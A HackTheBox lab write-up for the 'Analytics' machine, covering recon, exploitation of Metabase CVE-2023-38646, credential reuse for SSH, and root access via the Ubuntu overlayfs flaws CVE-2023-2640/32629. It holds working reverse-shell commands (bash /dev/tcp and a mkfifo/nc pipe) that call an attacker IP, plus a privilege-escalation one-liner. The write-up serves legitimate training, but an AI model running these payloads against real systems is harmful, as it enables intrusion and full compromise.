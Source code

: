 ```yaml
---
layout: post
title: Analytics - HackTheBox
categories:
- HackTheBox
tags:
  - metabase
  - credential stuffing
  - overlayfs
  - CVE-2023-0179
  - CVE-2023-0386
date: 2024-03-29
description: Analytics is a easy hackthebox machine that explores a vulnerability in a service called metabase. After gaining foothold into a docker continer we get credentials used in both the database and the ssh. Inside the machine we use a vulnerability in a service called overlayfs to get root.
summary: Analytics is a easy hackthebox machine that explores a vulnerability in a service called metabase. After gaining foothold into a docker continer we get credentials used in both the database and the ssh. Inside the machine we use a vulnerability in a service called overlayfs to get root.
cover:
  image: images/machine_img.png
---
```


## Recon

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)

```

Add the following hostname to the hosts file(`/etc/hosts`): `analytical.htb` 

## Foothold

Login page takes us to `data.analytical.htb`. We had the subdomain to hosts file and access it.
We notice a service running called Metabase. Searching for exploits for metabase we found one ver recent: <https://github.com/kh4sh3i/CVE-2023-38646>.
Looking into the endpoint `api/session/properties` we get the version `v0.46.6` of metabase which confirms that is vulnerable to this exploit.

```json
"version":{
       "date":"2023-06-29",
       "tag":"v0.46.6",
       "branch":"release-x.46.x",
       "hash":"1bb88f5"
    },
```

However it does not work properly and we had to use the following poc: <https://github.com/robotmikhro/CVE-2023-38646>. 
For detailed information: <https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>

```shell
nc -lvnpo 1234
python3 single.py -u http://data.analytical.htb -c "bash -i >& /dev/tcp/10.10.14.175/1234 0>&1"
```

With the shell into the machine we know that we are inside a docker container for limited resources that we have.
Looking at the environment variables we found a username(`metalytics`) and password(`An4lytics_ds20223#`) for the metabase.

```shell
$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=b171a1ee0a25
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/plugins
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/

```

Trying the username and password with the ssh service we got a shell as metalytics: `ssh metalytics@10.10.11.233`
Then use the pass: `An4lytics_ds20223#`

## Privilege Escalation

Once we run linpeas we notice that we do not have a way to gain privilege escalation using files, permissions or crontabs.
This means that the OS or kernel may be exploitable. The OS running is: `Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux`. 

We tried the following CVE's: CVE-2023-0179(<https://github.com/TurtleARM/CVE-2023-0179-PoC>) and CVE-2023-0386(<https://github.com/w0r7h/CVE-2023-0386>) but not get root.

Since the machine is running Ubuntu 22.04 with the kernel version 6.2.0-25-generic we know that the kernel version in this OS has two vulnerabilities CVE-2023-2640 and CVE-2023-32629 in the overlayfs module that lets escalate privileges locally without needing additional permissions. We found this vulnerability in the following links:
- <https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/>
- <https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability>

To execute commands as root:
```shell
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cat /root/root.txt")'
```

To gain a shell as root:
- First, get the netcat version: `nc -h` : `OpenBSD netcat (Debian patchlevel 1.218-4ubuntu1)`
- Second, start a netcat listener: `nc -lvnp 1235`
- Third, send [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-busybox):
```shell
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.175 1235 >/tmp/f")'
```


